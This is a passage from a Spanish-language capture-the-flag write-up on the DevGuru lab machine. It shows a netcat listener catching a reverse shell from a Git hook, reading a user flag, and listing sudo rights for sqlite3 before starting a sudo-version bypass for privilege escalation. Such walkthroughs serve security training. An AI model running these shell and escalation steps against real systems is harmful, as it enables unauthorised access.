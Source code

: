
Guardamos cambios, nos abrimos un listener por el puerto 443 en nuestro equipo y para que ejecute el hook debemos hacer commit para guardar los cambios

```bash
❯ sudo nc -nlvp 443
[sudo] password for yorch: 
listening on [any] 443 ...
connect to [192.168.1.148] from (UNKNOWN) [192.168.1.140] 55326
bash: cannot set terminal process group (674): Inappropriate ioctl for device
bash: no job control in this shell
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ whoami
whoami
frank
```
Podemos acceder a la flag de usuario en su directorio personal

```bash
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ cat /home/frank/user.txt 
22854d0aec6ba776f***************
```

### Escalada de Privilegios

* * *

Listamos privilegios de sudo y vemos que podemos ejecutar `sqlite3` pero no como root

```bash
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ sudo -l
Matching Defaults entries for frank on devguru:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User frank may run the following commands on devguru:
    (ALL, !root) NOPASSWD: /usr/bin/sqlite3
```

Buscamos en `GTFOBins` y vemos como escalar privilegios


<img src="/assets/VH/DevGuru/gtfo.png">


Si ejecutamos el oneliner obtenido en GTFOBins no conseguimos elevar privilegios. Nos fijamos en la versión de sudo que es la 1.8.21p2 y gracias a que tenemos una versión antigua de sudo tenemos una vía potencial de evitar restricciones de la siguiente forma
